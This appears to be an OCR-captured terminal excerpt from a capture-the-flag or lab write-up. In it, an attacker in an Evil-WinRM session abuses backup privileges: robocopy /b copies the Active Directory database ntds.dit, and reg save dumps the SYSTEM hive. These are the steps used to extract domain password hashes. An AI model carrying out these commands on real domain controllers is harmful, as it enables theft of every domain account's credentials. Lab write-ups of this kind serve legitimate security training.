 ```shell
    Files : robots.txt

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

2023/02/26 20:50:13 ERROR 123 (0x0000007B) Accessing Source Directory E:\Users\Administrator\Desktop\root.txt\
The filename, directory name, or volume label syntax is incorrect.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/26/2023   8:16 PM            191 backupscript.txt


*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /b E:\Windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Sunday, February 26, 2023 8:52:11 PM
   Source : E:\Windows\ntds\
     Dest : C:\Users\svc_backup\Documents\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    E:\Windows\ntds\
            New File              18.0 m        ntds.dit
  0.0%
### SNIP ###
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           419430400 Bytes/sec.
   Speed :           24000.000 MegaBytes/min.
   Ended : Sunday, February 26, 2023 8:52:11 PM

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\system .\system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> dir


    Directory: C:\Users\svc_backup\Documents
```